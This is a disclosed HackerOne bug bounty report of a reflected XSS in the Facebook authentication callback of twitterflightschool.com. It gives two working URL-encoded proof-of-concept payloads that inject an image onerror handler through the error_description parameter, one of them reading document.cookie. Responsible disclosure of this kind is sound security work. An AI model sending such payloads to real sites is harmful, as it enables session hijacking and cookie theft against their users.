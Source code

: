 # Reflected XSS in twitterflightschool.com

## Report Details
- **Report ID**: 770349
- **URL**: https://hackerone.com/reports/770349
- **State**: Closed
- **Severity**: none
- **Submitted**: 2020-01-08T17:42:07.205Z
- **Disclosed**: 2020-02-21T20:26:38.914Z

## Reporter
- **Username**: jubabaghdad
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
While testing twitterflightschool.com, I came across the below endpoint:

https://twitterflightschool.com/authentication/fb_callback?error=access_denied&error_code=200&error_description=

I noticed that it is possible to inject JS payload in "error_description=" parameter and trigger XSS in twitterflightschool.com


Reproduction Steps:
==============

Here we go
https://twitterflightschool.com/authentication/fb_callback?error=access_denied&error_code=200&error_description=%22%3E%3Cimg+src%3Dx+onerror%3Dprompt%28document.domain%29%3E

https://twitterflightschool.com/authentication/fb_callback?error=access_denied&error_code=200&error_description=%22%3E%3Cimg+src%3Dx+onerror%3Dprompt%28document.cookie%29%3E

## Impact

This is will allow the attacker to steal users cookies

## Attachments
No attachments
